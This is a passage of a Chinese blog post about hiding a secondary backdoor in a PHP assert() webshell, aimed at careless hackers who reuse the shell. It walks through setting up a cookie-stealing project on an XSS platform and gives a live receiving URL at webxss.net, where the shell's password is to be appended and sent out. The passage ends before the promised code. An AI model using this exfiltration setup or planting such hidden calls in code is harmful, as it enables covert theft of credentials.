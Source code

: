 **反正 assert() 可以用菜刀连接第二点呢？**  
可能有人想把 assert 变成变量 $x，然后变量在 base64 编码，到时候解码后就可以达到混淆的效果  
想法不错，但是 base64 编码在解码，php 会把它当做字符串 $x，而不是变量  
因此也不具备函数变量功能！

**思路**

编码混淆可以拿来免杀，同样也可以拿来给后门混淆视听。  
**让不懂代码，粗心的黑客上钩**  
思路有很多，这里抛砖引玉，借用 xss 平台完成。

  
**步骤如下：**  

**1. 随便找一家 xss 平台注册，登陆**

**2. 在我的项目里，点击创建：** 

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3eNvE2G9hnpiavhLvaAeKJXSow8zdgZdX4uI10wurMrukyxNhdrawY1Q/640?wx_fmt=png)

**3. 项目名称和描述随便写，就是为了好认：** 

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3st6jIfoV7ibE8JezTiaBEWSdQXoYyUEFKEGgrmlnX2ibgbvibwQtUWTVXw/640?wx_fmt=png)

**4. 点下一步，** 

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3RIuHFG0oTdSEva72GzJAdTLbppytOGll7Miazldk4SJ1RA107OIZXAA/640?wx_fmt=png)

**5. 选择偷 cookie 的模块，每个平台命名会不一样，我这个平台管这叫默认模块**

**6. 点击下一步完成创建项目**  

看自己的项目代码：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3WiacbRyPdmscYCI8cmCKc7Jl1e8wEHZZKZoOfyZsLKziaxhNqZ50SvWw/640?wx_fmt=png)

  
所谓**跨站脚本攻击，****就是把自己的另外一个站的恶意 js 代码插入受害者网站，**  
**偷 cookie 功能的实现**，实际是这个 js 用 get 方式请求了某个 url，把偷到的隐私数据发送过去  
这里本人的接口连接是：http://webxss.net//index.php?do=api&id=Iqc5u4  
  
你们看你们自己的，别用我的。。。  
尝试在浏览器地址栏输入  
http://webxss.net//index.php?do=api&id=Iqc5u4&location=test_haha

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3FNuXMx2PU9XGBrLhRgqtNoRxPsKKxWWbMQ3nXZZABgEicwRZLwKYZEg/640?wx_fmt=png)

错误没关系，去平台看看：  

![](https://mmbiz.qpic.cn/mmbiz_png/CBJYPapLzSE01ibVTJXwuq2vRUX1Sa5a3rDQRSWsLaMpCKm6knVRUmD5rgJR6euGLgDniak5sntxOSEAFyuCJSng/640?wx_fmt=png)

  
成功接收数据，因此思路就是：  
在 http://webxss.net//index.php?do=api&id=Iqc5u4&location = 后面加上一句话密码就好了

  
**实现**

简化代码如下：  
  